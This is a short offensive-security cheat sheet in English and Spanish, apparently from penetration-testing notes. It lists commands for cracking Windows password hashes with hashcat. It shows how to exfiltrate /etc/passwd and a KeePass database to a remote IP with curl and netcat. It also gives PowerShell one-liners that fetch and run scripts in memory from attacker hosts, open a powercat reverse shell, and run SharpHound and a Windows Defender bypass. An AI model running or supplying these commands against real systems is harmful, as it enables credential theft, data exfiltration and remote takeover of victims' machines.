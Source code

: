 ## Cracking Hashes - Windows 

```sh
hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt
```

# File Transfers


wget
```sh
wget -O exploit.c 10.10.10.10/exploit.c
```

Curl Upload
```cmd
curl --upload-file /etc/passwd http://10.10.10.10
```

## Pasar archivos de windows a mi maquina
```sh
nc.exe -w 3 10.10.14.45 1235 < archivo.kdbx
nc -lp 1235 > miarchivo.kdbx
```cmd

## Descargar desde powershell
```cmd
EX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
iwr -uri http://10.10.14.65:8000/SharpHound.exe -Outfile SharpHound.exe

En memoria 

iex (New-Object net.webclient).Downloadstring('http://10.10.14.217:8000/PowerView.ps1')

Bypass-4MSI para bypasear al Windows Defender
Invoke-Binary para mandar un binario desde la conexión con tu máquina de atacante, puedes dar tab para que él te muestre donde está (básicamente pwd en tu máquina) y escribes el nombre del archivo
```

## TFTP

### Local (start the service)

```sh
atftpd --daemon --port 69 /tftp
```

### Remote
```sh
tftp -i 10.10.10.10 get nc.exe
```
